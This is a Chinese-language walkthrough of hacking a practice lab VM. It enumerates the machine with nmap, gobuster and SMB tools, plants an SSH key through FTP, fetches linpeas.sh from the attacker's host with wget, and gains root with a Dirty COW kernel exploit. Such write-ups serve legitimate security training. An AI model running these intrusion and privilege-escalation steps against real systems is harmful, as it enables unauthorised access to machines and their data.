## 端口扫描

```
nmap -p- --min-rate 10000 192.168.174.148
```

```
nmap -p21,22,80,111,445,2049,2121,20048 -sT -sC -sV -O 192.168.174.148 -oA /nmapscan/tcp
```





```
nmap -p21,22,80,111,445,2049,2121,20048 --script=vuln 192.168.174.148 -oA /nmapscan/detail
```



#### 21端口

```
ftp 192.168.174.148
```

先尝试anyonmous匿名登录，登录失败

#### 22端口

ssh服务，最次考虑

#### 80端口

```
gobuster dir -u "http://192.168.174.148" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,zip
```

结合nmap扫描结果

有/icons和/readme.txt两个目录文件

先进入网页



从源代码看出这指向一个连接，但进去后是个网址https://www.armourinfosec.com/，感觉像宣传的，没意思

##### /icons/

- 

这些图片都是一些注释，没找到有用的

##### /readme.txt

- 

拿到了一个密码，虽然暂时不知道用户是谁，反正试过了不是root的

#### 111，2049端口

- 说明可以查看挂载

```
showmount -e 192.168.174.148
```



网段要在192.168.56.0/24才能访问，感觉有点麻烦先不管

2121端口

服务是ProFTPD1.3.5，通过搜索存在mod_cpoy漏洞



445端口

- samba服务，版本是smbd4.9.1 ，可以先考虑从这里入手

```
smbmap -H 192.168.174.148
```



存在一个共享目录，smbdata，权限是读和写

```
enum4linux -a 192.168.174.148
```



有一个名为smbuser的用户，此时我们就有了一组登录凭证



再次确认smbdata这个目录

```
smbclient //192.168.174.148/smbdata
```

通过smbclient访问这个共享目录



发现两个文件值得注意。secure和sshd_config

```
cat secure
```

看起来像日志



看到用户及组都是smbuser，还有一个密码，但后续我没用上

```
cat sshd_config
```



- 翻译一下， Authentication:身份验证，Authorized:授权的

- PermitRootLogin yes:允许root通过ssh登录
- AuthorizedKeysFile     .ssh/authorized_keys：被授权的密钥文件（这个也是靶机中的文件位置）
- PasswordAuthentication no:不允许密码登录，那就只能尝试使用私钥登录（前提是靶机里有对应的公钥）

我们不能直接拿到root密码，所以我们要尝试把自己的公钥传入把靶机中

```
ssh-keygen -t rsa
```



一直回车就是默认创造一个/root/.ssh/id_rsa文件（包括id_rsa.pub）

从能上传文件的地方入手，优先考虑21端口ftp，因为ftp的版本是ProFTPd1.3.5，搜索发现存在漏洞，是一个远程执行命令


```
ftp 192.168.174.148
```

登录smbuser用户

尝试

```
mkdir .ssh
```

创建成功

```
put /root/.ssh/id_rsa.pub /home/smbuser/.ssh/authorized_keys
```

此时smbuser用户下有一个~/.ssh/authorized_keys文件，里面是我们上传的公钥，这时我们再使用私钥登录(在我们的.ssh目录下进行ssh登录)

```
ssh -i id_rsa smbuser@192.168.174.148
```



没有密码我们也成功登录

把smbuser用户下的文件看遍也没有任何有用信息

- 先查看内核版本和系统信息



稍后我们可以再了解一下内核信息，这个内核版本较低

- ```
  find / -writable -type f 2>/dev/null | grep -v proc | grep -v sys
  find / -perm -u=s -type f 2>/dev/null
  cat /etc/crontab
  /usr/sbin/getcap -r 2>/dev/null
  ```
  
  都没有可利用的信息

- 由于我自身经验不足，从内核我自己看不出漏洞，这里用了一个全自动工具linpeas.sh





```
cd /usr/share/peass/linpeas
python3 -m http.server 8080
```

打开本机服务

```
cd /tmp
wget http://192.168.174.128:8080/linpeas.sh
```

下载后在靶机的tmp目录中直接运行



脚本给我们列出的可能有效的漏洞，经过尝试后第二个是有用的

```
searchsploit -m 40611 40839 40847
```



根据注释操作

- 这里注意一下，靶机的内核漏洞利用完系统环境可能会变化，后续复现的时候要恢复镜像

```
./dcow -s
```

运行后生成root密码

成功提权